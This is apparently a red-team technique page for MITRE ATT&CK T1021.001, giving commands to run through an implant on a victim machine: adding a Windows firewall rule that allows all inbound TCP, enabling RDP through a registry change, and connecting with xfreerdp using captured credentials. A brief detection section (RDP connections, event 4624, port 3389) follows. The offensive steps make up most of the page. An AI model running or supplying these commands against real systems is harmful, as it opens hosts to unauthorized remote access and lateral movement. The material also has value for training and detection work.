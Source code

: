 # [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/)

## Exploit syntax:

1. Run the following command in your posh implant to your victim:
```powershell
sharpps netsh.exe advfirewall firewall add rule name="enablerdp" dir=in action=allow protocol=tcp localport=any enable=yes
```

2. Verify the  firewall rule has been created:
```powershell
sharpps netsh.exe advfirewall firewall show rule status=enabled name=enablerdp 
```

3. Enable RDP on the remote machine
```powershell
sharpps Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

4. In a blank terminal, run:
```
sudo xfreerdp /v:<IP ADDRESS>:3389 /u:'<domain>\<user>' /p:'<password>'
---

* Note, add syntax for xfreerdp once added to parrot to utilize newly opened firewall on victim## Detection Technique:

---

## Detections
* Investigate all remote desktop connections.
* Investigate all event code 4624 ( remote logons )
* Look at connections over port 3389

---

## Resouces